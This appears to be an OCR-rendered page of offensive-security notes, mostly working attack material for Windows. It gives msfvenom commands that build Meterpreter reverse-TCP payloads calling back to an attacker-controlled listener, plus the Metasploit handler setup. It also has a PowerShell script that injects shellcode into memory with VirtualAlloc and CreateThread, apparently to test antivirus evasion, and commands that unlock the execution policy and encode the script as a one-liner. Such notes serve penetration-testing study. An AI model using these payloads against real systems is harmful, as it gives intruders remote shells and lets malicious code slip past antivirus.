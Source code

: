 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f exe > binary.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.11.0.4 LPORT=4444 -f powershell

msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.119.175
set LPORT 4444

#### In-memory payload injection script

```
$code = '
[DllImport("kernel32.dll")]
public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32.dll")]
public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt.dll")]
public static extern IntPtr memset(IntPtr dest, uint src, uint count);';
$winFunc =
Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru;
[Byte[]];
[Byte[]]$sc = <place your shellcode here>;
$size = 0x1000;
if ($sc.Length -gt 0x1000) {$size = $sc.Length};
$x = $winFunc::VirtualAlloc(0,$size,0x3000,0x40);
for ($i=0;$i -le ($sc.Length-1);$i++) {$winFunc::memset([IntPtr]($x.ToInt32()+$i), $sc[$i], 1)};
$winFunc::CreateThread(0,0,$x,0,0,0);for (;;) { Start-sleep 60 };

```

```
powershell .\av_test.ps1

powershell

Get-ExecutionPolicy -Scope CurrentUser 

Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser

Get-ExecutionPolicy -Scope CurrentUser

```
### Encoded powershell script for oneliner

```
python2 ps_encoder.py -s av_test.ps1


powershell -E <encoded oneliner>

```

